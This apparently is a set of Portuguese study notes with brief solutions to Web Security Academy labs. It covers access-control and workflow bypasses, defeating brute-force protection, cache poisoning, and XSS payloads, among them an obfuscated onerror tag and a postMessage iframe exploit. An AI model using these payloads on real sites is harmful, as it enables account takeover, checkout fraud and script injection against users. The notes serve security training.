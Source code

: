 **Lab: Multi-Step Process with no Access Control on One Step**

O step 2 não está autenticado com privilégios de administrador.

<br>
<br>

**Lab: Broken Brute-Force Protection, IP Block**

Coloque credenciais válidas entre cada duas tentativas de brute-force para bypassar a proteção.

<br>
<br>

**Lab: Insufficient Workflow Validation**

Confirma como um checkout normal funciona:
```
GET /cart/order-confirmation?order-confirmed=true
```

Proceda com o processo de comprar uma jaqueta, mas mude a segunda request para a que está acima.

<br>
<br>

**Lab: Manipulating the WebSocket Handshake to Exploit Vulnerabilities**
```
<img src=1 oNeRrOr=alert`1`>
```

<br>
<br>

**Lab: DOM XSS Using Web Messages and a JavaScript URL**

Código-fonte:
```
<script>
    window.addEventListener('message', function(e) {
        var url = e.data;
        if (url.indexOf('http:') > -1 || url.indexOf('https:') > -1) {
            location.href = url;
        }
    }, false);
</script>
```

Exploit:
```
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:print()//http:','*')">
```

<br>
<br>

**Lab: Web Cache Poisoning with Multiple Headers**

Use a extensão Param Miner para identificar o header `X-Forwarded-Scheme`. Qualquer outro valor diferente de HTTPS vai retornar status 302 com um header `Location`.
